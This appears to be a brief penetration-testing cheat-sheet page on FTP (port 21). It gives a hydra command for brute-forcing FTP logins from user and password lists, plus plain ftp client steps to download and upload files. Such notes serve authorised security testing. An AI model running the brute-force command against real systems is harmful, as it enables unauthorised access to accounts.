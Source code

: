 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# FTP - 21

#### Brute force <a href="#brute-force" id="brute-force"></a>

```
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ftp://<IP> -u -vV
```

#### Downloading file <a href="#downloading-file" id="downloading-file"></a>

```
ftp <IP>
PASSIVE
BINARY
get <FILE>
```

#### Uploading file <a href="#uploading-file" id="uploading-file"></a>

```
ftp <IP>
PASSIVE
BINARY
put <FILE>
```
